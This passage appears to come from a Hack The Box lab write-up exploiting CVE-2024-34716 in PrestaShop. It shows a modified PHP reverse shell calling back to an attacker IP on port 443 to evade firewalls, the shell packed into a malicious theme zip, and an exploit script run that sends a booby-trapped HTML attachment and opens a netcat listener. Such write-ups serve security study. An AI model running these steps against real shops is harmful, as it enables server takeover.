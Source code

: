 ```html
        }

        document.addEventListener('DOMContentLoaded', function() {
            importTheme();
        });
    </script>
</body>
</html>

```

### Modified reverse_shell.php

Snippet of the reverse shell. Port 443 was used to increase the chances of it bypassing any firewall rules.

```php
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.3';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

### Modified ps_next_8_theme_malicious.zip

The reverse shell was added into the theme zip file to be uploaded.

```
┌──(kali㉿kali)-[~/hackthebox/trickster/CVE-2024-34716]
└─$ zip ps_next_8_theme_malicious.zip reverse_shell.php 
  adding: reverse_shell.php (deflated 59%)
```

# Testing POC

The below snippets show the testing phase of the POC.

### exploit.py

The script produced an error and did not start the netcat listener automatically. This was not concerning because if the reverse shell uploaded successfully then that is good enough.

```
┌──(kali㉿kali)-[~/hackthebox/trickster/CVE-2024-34716]
└─$ python3 exploit.py                                                         
[?] Please enter the URL (e.g., http://prestashop:8000): http://shop.trickster.htb
[?] Please enter your email: admin@trickster.htb
[?] Please enter your message: test
[?] Please provide the path to your HTML file: exploit.html
[X] Yay! Your exploit was sent successfully!
[X] Once a CS agent clicks on attachement, you'll get a SHELL
Traceback (most recent call last):
  File "/home/kali/hackthebox/trickster/CVE-2024-34716/exploit.py", line 64, in <module>
    subprocess.call(["ncat", "-lnvp", "1234"], shell=False)
  File "/usr/lib/python3.12/subprocess.py", line 389, in call
    with Popen(*popenargs, **kwargs) as p:
         ^^^^^^^^^^^^^^^^^^^^^^^^^^^
```